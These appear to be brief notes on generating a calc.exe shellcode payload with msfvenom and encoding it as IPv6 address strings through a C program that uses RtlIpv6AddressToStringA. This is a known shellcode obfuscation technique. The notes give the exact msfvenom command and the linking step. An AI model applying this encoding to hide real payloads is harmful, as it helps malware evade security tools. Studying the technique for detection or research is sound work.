 generated exec calc.exe payload with
`.\msfvenom.bat -p windows/x64/exec CMD=calc.exe -f raw --pad-nops -n 288 -o calc-payload-nops.bin`
and converted it to IPv6 format with the `payload-to-ipv6-str.c` program

link with ntdll with
`cl module.c ntdll.lib`

rewrote `payload-to-ipv6-str.c` using `RtlIpv6AddressToStringA` function instead of the custom `printf` format.
This function formats the IPv6 string in the abbreviated format with no leading zeros and multiple zeros collapsed with `::`